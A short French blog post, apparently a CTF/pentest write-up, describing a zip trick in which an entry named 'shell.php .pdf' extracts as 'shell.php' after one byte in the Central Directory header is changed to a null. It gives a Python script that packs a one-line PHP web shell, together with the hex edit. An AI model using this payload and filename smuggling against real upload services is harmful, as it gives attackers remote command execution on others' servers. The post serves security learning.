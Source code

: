 ```yaml
---
title: Décompresser un zip avec une extension différente pour les fichiers.
img_path: "/assets/img/posts/file_zip_upload_with_different_name"
categories:
- Vulnérabilités Web
- web
---
```


## Introduction

> À l'occasion de la résolution d'une machine hack the box, une incompréhension de ma part à propos d'un payload a mené à la "découverte" d'une chose plutôt rigolote et qui pourrait s'avérer utile dans certain cas précis : avoir une archive zip où, un fichier nommé par exemple `shell.php. pdf`se transforme en `shell.php` à la décompression.

### Comment ça se passe

Pour faire synthétique, voici la procédure :

- 1) Créer un fichier zip via python (script de hacktricks) :

```python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('shell.php .pdf', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

create_zip()
```

> On remarque que le nom a un espace  entre `php` et `pdf`.

- 2) Editer le fichier zip avec une éditeur héxadécimal. Remplacer l'octet `20` par `00` du nom du fichier placé dans le *[Central Directory Header](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html)*.

```hex
# avant le changement du nom dans le  Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 202e 7064  ...shell.php .pd
# après le changement du nom dans le the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 002e 7064  ...shell.php..pd
```

- 3) Profit :

![Proof of concept du tricks](poc.png)

### Dans quels cas c'est utile ?

De ce que je peux supputer, c'est utile si l'application ne checke pas la conformité entre le nom du fichier et ce qui est effectivement décompressé. Si l'application ne teste que le *local file name*,  c'est une bonne indication pour au moins tester cette petite technique.

On peut la retrouver dans hacktrick [ici](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-upload.md#decompress-with-a-different-name) \o/
 *


* À l'heure actuelle le script original ne fonctionne qu'avec python ou python2.7... Une PR a été faite afin de rendre le script compatible avec python2.7 et python3, en reprenant le code original de hacktricks.
